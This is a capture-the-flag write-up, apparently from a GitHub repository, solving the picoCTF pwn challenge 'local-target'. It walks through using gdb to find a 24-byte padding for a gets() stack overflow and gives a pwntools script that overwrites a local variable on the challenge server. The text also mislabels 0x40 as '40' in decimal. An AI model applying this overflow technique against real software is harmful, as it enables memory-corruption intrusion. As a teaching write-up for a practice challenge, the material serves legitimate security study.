





## Write UP PicoCTF Challenge 📖 
# local-target
hi!, i will give you write up from picoCTF PWN challenge "Local-Target"

# solve
from SC we can see that the program is asking for input, and  using gets(). We know gets() its not a secure cuz You can input more characters than the limit. We see the local variabel num is 64. The idea from this chall is, you should to overwrite the num variabel with integer 65 and you got the flag. Now let's debug using gdb, i using pwndbg, one of the extension from gdb. 

from dynamic anylisis i suggest value of num saved in `rbp-0x8`. after the mov let's see whats the fill of `rbp-0x8`. 

let's see, my suggest correct, the fill is `rbp-0x8` is `0x0000000000000040` in decimal is 40. next let's search padding before change the variabel, i try to input `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL` for see whats wrong in the register `rbp-0x8`.

from image we know, program always ask the user input after gets() function, so for next try, breakpoint at gets(), it's save your time.

Let's see after input, check the register `rbp-0x8` , and see the value turn out to change `0x4848484847474747` this value is little endian, in char, `0x47` is `G` and `0x48` is `H` , so we know the padding until  `FFFF`, so the padding is 24. After know padding you only need to write the value you want to overwrite, overwite the value using `0x0000000000000041`.
# make script to solve
```
    #!/usr/bin/env python3
    from pwn import *
    io = remote('saturn.picoctf.net', 59384) #it if you remote target
    #io = process('./local-target') #local target
    print('[*] solver by Lanz')
    #create payload
    payload = b'A' * 24 #padding
    payload += p64(0x0000000000000041) #variabel overwrite
    io.recvuntil(b':') #this read a string until :
    io.sendline(payload) #this sendline your payload

    io.interactive()
        
```

# let's TRY (you should believe you solver is solved the challenge, and learn about dynamic anylisis mwhehehe)

let's see it's work, it's not the correct flag, so find the correct flag hehe, i just give you how to solve :P.

#Quotes
~pwn is art code, if you just can solve the chall from find the write up for the correct flag, your is stupid hehe.
